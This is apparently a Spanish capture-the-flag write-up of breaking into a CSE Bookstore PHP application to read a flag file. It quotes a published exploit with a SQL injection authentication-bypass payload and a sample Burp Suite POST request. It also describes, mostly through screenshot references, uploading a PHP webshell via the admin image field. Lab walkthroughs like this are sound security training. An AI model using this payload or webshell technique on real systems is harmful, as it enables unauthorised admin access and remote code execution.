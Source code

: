 1. Navegamos a la página dada.
   ![[Pasted image 20251011134021.png]]
2. Buscamos por aplicaciones de tienda de libros (bookstore application):
   ![[Pasted image 20251011134917.png]]
3. El código que encontramos tiene ejemplo tanto por web como usando Burp Suite:
   ```bash
# Exploit Title: CSE Bookstore Authentication Bypass
# Date: 27/10/2020
# Exploit Author: Alper Basaran
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Windows 10 Enterprise 1909


CSE Bookstore is vulnerable to an authentication bypass vulnerability on the admin panel. 
By default the admin panel is located at /admin.php and the administrator interface can be accessed by unauthorized users exploiting the SQL injection vulnerability.

Payload: 
Name: admin
Pass: %' or '1'='1 

Sample BurpSuite intercept:

POST /bookstore/admin_verify.php HTTP/1.1
Host: 192.168.20.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://192.168.20.131
Connection: close
Referer: http://192.168.20.131/bookstore/admin.php
Cookie: PHPSESSID=hmqnib0ihkvo235jor7mpfoupv
Upgrade-Insecure-Requests: 1

name=admin&pass=%25%27+or+%271%27%3D%271&submit=Submit+Query
```

4. Probamos:
   ![[Pasted image 20251011135154.png]]
5. La contraseña funciona:
   ![[Pasted image 20251011135812.png]]
6. Buscamos más vulnerabilidades, ya que necesitamos acceder a `/opt/flag.txt`.
   ![[Pasted image 20251011140737.png]]
7. El ejecutable nos lanza un error:
   ![[Pasted image 20251011143426.png]]
8. Como el código no funciona a pesar de modificarlo lo leemos y vemos que está insertando una webshell en la imagen, por lo que vamos a hacerlo manualmente desde la página vulnerada de admin:
   ![[Pasted image 20251011142510.png]]
9. Activamos Burp Suite:
   ![[Pasted image 20251011143810.png]]
10. Cambiamos el valor de la imagen:
    ![[Pasted image 20251011144637.png]]
11. Vemos desde donde se están cargando las fotos:
   ![[Pasted image 20251011143332.png]]
12. Intentamos cargar la consola php:
    ![[Pasted image 20251011144924.png]]
13. Obtenemos la flag
    ![[Pasted image 20251011145025.png]]

